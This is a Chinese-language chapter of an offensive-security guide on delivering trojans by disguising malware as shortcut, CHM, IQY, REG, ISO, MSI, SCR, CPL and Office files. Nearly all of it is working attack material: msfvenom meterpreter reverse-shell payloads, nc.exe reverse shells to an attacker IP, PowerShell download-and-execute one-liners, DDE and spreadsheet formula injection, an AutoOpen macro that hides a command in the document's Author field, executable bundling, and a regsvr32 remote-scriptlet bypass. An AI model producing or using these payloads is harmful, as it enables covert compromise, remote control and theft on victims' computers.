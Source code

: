 # 木马投递

## 恶意软件伪装

### 文件伪装

1. 快捷方式伪装

(1)

[lnk.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/lnk.ps1)

(2)

[ico.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ico.ps1)

[download.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/download.ps1)

hi.exe:

```bash
msfvenom -p windows/x64/messagebox TEXT='There is payload!' TITLE='Ghost Wolf Lab' -f exe > hi.exe
```

(3)

[ole.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ole.ps1)

nc.cmd:

```bash
C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe  
//嵌入攻击者主机IP地址
```

2. CHM文件

[nc.html](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/nc.html)

```bash
nc -lvp 4444
```

nishang:

```bash
Import-Module .\Out-CHM.ps1
out-chm -payload "C:\Users\Administrator\Desktop\nc.exe -e powershell IP地址 5555" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
nc -lvp 5555
```

3. IQY文件

test.iqy:

```bash
WEB
1
https://www.baidu.com/robots.txt
```

calc.dat:

```bash
=cmd|' /C calc'!notthissheet
```

calc.iqy:

```bash
WEB
1
http://IP地址/payload/calc.dat
```

(1)

```bash
Start-CaptureServer -AuthType Basic -IPAddress IP地址 -LogFilePath log.txt
```

login.dat:

```bash
=cmd|' /C start iexplore http://IP地址/'!notthissheet
```

auth.iqy:

```bash
WEB
1
http://IP地址/payload/login.dat
```

(2)

```bash
=cmd|' /C C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe'!notthissheet
```

```bash
=cmd|' /C powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://IP地址/nishang/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress IP地址 -Port 4444"'!notthissheet
```

4. REG文件

[malicious.reg](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/malicious.reg)

5. VBS文件

[evil.vbs](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.vbs)

6. JScript文件

[evil.js](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.js)

7. ISO文件

```bash
apt-get install genisoimage
mkisofs -o malicious.iso -V "Update" -J -R hi.exe
```

8. MSI文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f msi > evil.msi
```

9. SCR文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f exe > payload.exe
payload.exe > payload.scr
```

10. 联系人文件

(1)

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

```bash
http.\\www.ghostwolflab.com.cpl
shell.dll > www.ghostwolflab.com.cpl
```

(2)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=5555 -f vbs > shell.vbs
```

```bash
<a href="vbs\shell.vbs">snowwolf@admin.com</a>
```

11. CPL文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

### 宏病毒

弹窗宏:

```vba
Private Sub Document_Open()
  MsgBox "Hi,I am snowwolf.", vbOKOnly, "Ghost Wolf Lab"
End Sub
```

1. Metasploit框架生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-psh > vba
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-exe
```

2. 页面替换宏

[page.vba](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/page.vba)

3. Regsvr32方法

[evil.sct](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.sct)

[Regsvr32下载](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Regsvr32下载)

4. Author属性

```bash
powershell -NoP -ExecutionPolicy Bypass -Command IEX ((New-Object Net.WebClient).DownloadString('http://IP地址/payload/hacker.ps1'))
```

hacker.ps1 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f psh-cmd

```bash
Sub AutoOpen()
    ' 读取Author属性中的恶意代码
    Dim strCmd As String
    strCmd = ActiveDocument.BuiltInDocumentProperties("Author").Value
    ' 执行恶意代码
    Shell strCmd, vbHide
End Sub
```

5. 基于ActiveX的自动运行宏

[嵌入ActiveX自动运行宏](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/嵌入ActiveX自动运行宏)

active.ps1 > msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f psh-cmd > active.ps1

6. 基于Certutil直接下载并运行

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f exe > cer.exe
```

[Certutil下载并运行](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Certutil下载并运行)

7. 远程模板注入

[远程模板VBA](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/远程模板VBA)

file name = http://192.168.0.189/payload/evil.dotm

8. DDE

```bash
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://IP地址/payload/active.ps1')"}
```

Excel:

```bash
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\excel.vbs http://IP地址/payload/excel.vbs & %tmp%\\excel.vbs'!'A1'
```

excel.vbs:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vbs > excel.vbs
```

9. Excel XLM宏

```bash
=EXEC("C:\\Users\\Administrator\\Desktop\\nc.cmd")
=HALT()
```

### 文件捆绑

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -f exe > shell.exe
```

[file_bundler.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/file_bundler.py)

```bash
python file_bundler.py --legit hi.exe --evil shell.exe --output bundled_installer.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -x hi.exe -k -f exe > shell.exe
```

### 自解压

## 白名单

### regsvr32

[payload.sct](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E7%99%BD%E5%90%8D%E5%8D%95/payload.sct)

```bash
regsvr32 /u /n /s /i:http://IP地址/payload/white/payload.sct scrobj.dll
regsvr32 /u /n /s /i:\\IP地址\payload\white\payload.sct scrobj.dll
```
